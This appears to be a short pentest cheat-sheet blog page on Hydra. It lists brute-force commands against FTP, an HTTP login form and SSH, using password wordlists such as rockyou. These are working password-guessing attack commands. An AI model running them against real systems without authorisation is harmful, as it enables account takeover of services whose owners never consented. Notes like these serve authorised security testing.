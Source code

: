 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Hydra"
date:   2019-07-07 14:34:00 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Hydra
  - Windows Security
  - Active Directory Hacking
  - Password Cracking
  - Password Bruteforcing
---
```


<pre>
root@kali:~# hydra -t 1 -l admin -P /root/Desktop/password.lst -vV <IP> ftp
</pre>

- Bruteforcing through Hydra:
  - hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

  - hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://10.0.0.1
